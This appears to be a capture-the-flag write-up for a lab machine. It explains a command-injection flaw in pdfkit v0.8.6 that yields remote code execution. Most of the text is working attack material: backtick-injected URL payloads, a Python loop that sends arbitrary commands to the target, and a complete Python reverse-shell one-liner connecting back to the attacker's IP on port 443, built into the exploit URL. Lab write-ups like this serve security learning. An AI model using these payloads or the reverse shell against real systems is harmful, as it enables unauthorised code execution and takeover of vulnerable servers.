 # Exploit - Remote Code Execution

We can see that the PDF Creator is a tool called **pdfkit v0.8.6**. This version is vulnerable and we can get a RCE (Remote Code Execution). We can see more about this vulnerability [here](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). To exploit this vulnerability, it's simple! We just need to add to the URL a parameter called **?user** and give a "space" but encoded (a space like %20 is the URL code for a space of the space bar). Next, we need to concatenate a bash code (because it is a Linux Machine) with the special symbol **`** (a code between 2 of this symbol in bash get execute before the rest of the command outside the symbols) around the code for execute it like if we are in a command line shell. The command we will try is a single ping to our machine to test if we really got remote code execution. The final URL will be:

> http://10.10.14.144/?name=%20`ping -c 1 10.10.14.144`

```powershell
# Set up a listener to capture the ping
sudo tcpdump -i tun0 icmp
```

We got a ping back! I also create a tiny script in Python to have a fast way to try remote code execution:

```python
import requests

while True:
	cmd = input("[fAkeSh3ll ~] > ")
	data = {
		'url': f"http://10.10.14.144/?name=%20`{cmd}`",
		}
	response = requests.post('**http://precious.htb/**', data=data, verify=False)
```

Now, we can try to get a reverse shell. A reverse shell is a type of connection to get a shell on the target machine. But the way we got this is tricky. We need to find a way for the target machine to send its own shell to our machine. It's like trying to enter a house, and we need to find a way for the house to open its own door to give us access... The command that worked on the machine was this:

```powershell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.144",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

So, if we want to do that on the Website, we need to send this url:

```powershell
http://10.10.14.144/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.144",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
```

The query needs to be that exact and we need to adapt the IP and the port. We also need to set up a listener to capture the shell.
